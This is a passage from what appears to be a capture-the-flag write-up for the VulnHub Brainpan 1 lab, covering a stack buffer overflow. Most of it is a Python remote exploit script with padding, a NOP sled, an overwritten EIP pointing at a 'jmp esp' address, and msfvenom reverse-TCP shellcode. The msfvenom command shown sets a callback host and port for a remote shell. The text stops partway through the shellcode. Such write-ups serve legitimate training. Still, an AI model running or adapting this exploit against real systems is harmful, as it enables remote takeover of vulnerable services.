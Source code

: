 All the addresses end with a null byte which makes it hard / impossible to jump to. By supplying such address we would terminate our input on the last byte, which would lead to unwanted behaviour (possible crashes). Luckily if you notice in [picture 5](https://raw.githubusercontent.com/V3ded/V3ded.github.io/master/img/blog/brainpan1/brainpan1-05.png) the stack pointer (ESP) points to the beginning of our overflowed buffer after overwritten EIP.

<img src="/assets/img/blog/vulnhub-brainpan1/brainpan1-10.png">

That means that if we overwrite the return address with `jmp esp` instruction we can hop right into our shellcode! Use `CTRL-F`, search for the instruction and copy the address.

<img src="/assets/img/blog/vulnhub-brainpan1/brainpan1-07.png">  

You can use any shellcode but I'll simply stick to one generated with msfvenom. Here is the remote exploit:
  
{% highlight python %}

#!/usr/bin/python

import socket
import struct
import time

TARGET = "192.168.0.228" #.110 for brainpan 
PORT = 9999

PADDING = "A" * 524
NOP = "\x90" * 64
EIP = struct.pack("I", 0x311712F3) #Location of jmp esp which points to NOPS
				   #struct.pack() converts 0x311712F3 into little-endian format

#msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.66 LPORT=3333 -f py -b '\x00' 
#CATCH WITH exploit/multi/handler

SC  = "\xda\xcc\xbb\x3c\xcc\x27\xd6\xd9\x74\x24\xf4\x5e\x31"
SC += "\xc9\xb1\x54\x83\xc6\x04\x31\x5e\x14\x03\x5e\x28\x2e"
SC += "\xd2\x2a\xb8\x2c\x1d\xd3\x38\x51\x97\x36\x09\x51\xc3"
SC += "\x33\x39\x61\x87\x16\xb5\x0a\xc5\x82\x4e\x7e\xc2\xa5"
SC += "\xe7\x35\x34\x8b\xf8\x66\x04\x8a\x7a\x75\x59\x6c\x43"
SC += "\xb6\xac\x6d\x84\xab\x5d\x3f\x5d\xa7\xf0\xd0\xea\xfd"
SC += "\xc8\x5b\xa0\x10\x49\xbf\x70\x12\x78\x6e\x0b\x4d\x5a"
SC += "\x90\xd8\xe5\xd3\x8a\x3d\xc3\xaa\x21\xf5\xbf\x2c\xe0"
SC += "\xc4\x40\x82\xcd\xe9\xb2\xda\x0a\xcd\x2c\xa9\x62\x2e"
SC += "\xd0\xaa\xb0\x4d\x0e\x3e\x23\xf5\xc5\x98\x8f\x04\x09"
SC += "\x7e\x5b\x0a\xe6\xf4\x03\x0e\xf9\xd9\x3f\x2a\x72\xdc"
SC += "\xef\xbb\xc0\xfb\x2b\xe0\x93\x62\x6d\x4c\x75\x9a\x6d"
SC += "\x2f\x2a\x3e\xe5\xdd\x3f\x33\xa4\x89\x8c\x7e\x57\x49"
SC += "\x9b\x09\x24\x7b\x04\xa2\xa2\x37\xcd\x6c\x34\x38\xe4"
SC += "\xc9\xaa\xc7\x07\x2a\xe2\x03\x53\x7a\x9c\xa2\xdc\x11"
SC += "\x5c\x4b\x09\x8f\x59\xdb\x72\xf8\x62\x59\x1b\xfb\x62"